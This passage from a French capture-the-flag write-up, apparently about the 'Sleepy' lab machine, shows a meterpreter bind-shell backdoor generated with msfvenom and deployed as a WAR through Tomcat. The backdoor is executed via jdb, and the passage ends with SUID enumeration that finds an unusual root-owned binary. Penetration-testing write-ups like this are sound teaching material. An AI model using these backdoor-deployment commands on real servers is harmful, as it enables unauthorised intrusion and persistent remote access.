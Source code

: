 ![Sleepy WAR JSP backdoor](/assets/img/sleepy/sleepy_war.png)

Ce shell est certes plus sexy à première vue... mais on s'aperçoit vite qu'il gère mal aussi les pipes et compagnie... Et il nous faut absolument pouvoir uploader une backdoor digne de ce nom.  

Pour cela on va réutiliser la fonctionnalité d'upload du Tomcat en intégrant une backdoor dans une archive war :  

```plain
msfvenom -p linux/x86/meterpreter/bind_ipv6_tcp LPORT=9999 -f elf > backdoor
```

Une fois le war déployé on retrouve la backdoor dans l'arborescence du Tomcat. Il ne reste plus qu'à l'exécuter via jdb si on veut un shell avec l'utilisateur *sleepy* :  

```plain
print new java.lang.Runtime().exec("/usr/share/tomcat/webapps/cmd/backdoor")
```

Permis de tuer
--------------

Une fois le *meterpreter* récupéré on fouille un peu :  

```plain
bash-4.2$ find / -perm -u+s 2> /dev/null
find / -perm -u+s 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/nightmare
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib64/dbus-1/dbus-daemon-launch-helper
bash-4.2$ ls -l /usr/bin/nightmare
ls -l /usr/bin/nightmare
-rwsr-s---. 1 root tomcat 8669 Jan 18  2015 /usr/bin/nightmare
```
